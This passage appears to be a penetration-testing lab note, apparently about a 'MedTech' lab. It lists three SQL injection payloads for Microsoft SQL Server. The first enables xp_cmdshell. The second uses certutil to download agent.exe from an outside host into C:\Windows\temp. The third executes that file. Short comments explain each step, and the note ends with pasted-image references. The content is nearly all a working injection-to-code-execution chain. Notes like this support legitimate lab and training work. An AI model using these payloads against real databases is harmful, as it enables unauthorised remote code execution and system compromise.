 - '; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
enables XP_cmdshell
- '; EXEC xp_cmdshell 'certutil.exe -urlcache -f http://192.168.45.187/agent.exe C:\Windows\temp\agent.exe'; --
downloads and stores our exe in c:\windows\temp directory
note c:\windows\temp is writable by everyone
- '; EXEC xp_cmdshell 'C:\Windows\temp\agent.exe'; --
launches payload

![[Pasted image 20230907084700.png]]![[Pasted image 20230907084746.png]]![[Pasted image 20230907084818.png]]![[Pasted image 20230907084837.png]]
- This is how MedTech worked, we put a crafted payload, the syntax at the beginning of this page to structure it to trigger our payload